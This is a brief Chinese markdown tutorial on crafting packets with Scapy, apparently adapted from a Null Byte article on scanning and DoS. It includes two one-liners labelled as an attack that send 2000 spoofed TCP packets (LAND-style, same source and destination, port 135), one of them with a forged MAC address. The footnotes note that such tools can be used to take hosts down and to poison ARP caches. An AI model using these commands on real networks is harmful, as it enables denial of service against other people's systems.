## 使用Scapy创建数据包进行扫描和执行 [^1]

### Understanding TCP/IP

- TCP结构

  ![tcp](../src/tcp.jpg)

- TCP标头和数据包

  ![tcp_header](../src/tcp_header.jpg)

### Start Scapy

`pip install scapy`

`scapy`

### Create a Packet

`>>> x = IP(ttl=64)` [^2]

`>>> x` [^3]

`>>> x.src="192.168.1.101"`

`>>> x.dst="192.168.1.122"`

### View Built-in Functions

`lsc()`

`send(x)`

### Create an Attack

`>>> send(IP(src="192.168.1.122", dst="192.168.1.122")/TCP(sport=135,dport=135), count=2000)`

### Spoof  the MAC Address

`>>> sendp(Ether(src="aa:bb:cc:dd:ee:ff")/IP(src="192.168.1.122", dst="192.168.1.122")/TCP(sport=135,dport=135), count=2000)`

### Ref

- [official doc](https://scapy.readthedocs.io/en/latest/)

[原文](https://null-byte.wonderhowto.com/how-to/create-packets-from-scratch-with-scapy-for-scanning-dosing-0159231/)

---

[^1]: 由于能够创建任何具有任何特征的数据包，入侵者可以很容易地找到一个可以关闭主机或网络的数据包。Nmap和Hping3是有效的数据包操作工具，但也有Scapy，几乎可以无限量地定制，可以进行ARP欺骗，ARP缓存中毒，数据包嗅探和分析，也可以像Tcpdump和Wireshark、Aireplay-ng一样注入802.1帧，并像[Cain和Abel](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-1-principles-technologies-0156136/#jump-cainandabel)一样解码VoIP
[^2]: 将数据包定义为`x`，然后为其赋予多个属性
[^3]: 查看构建的数据包的属性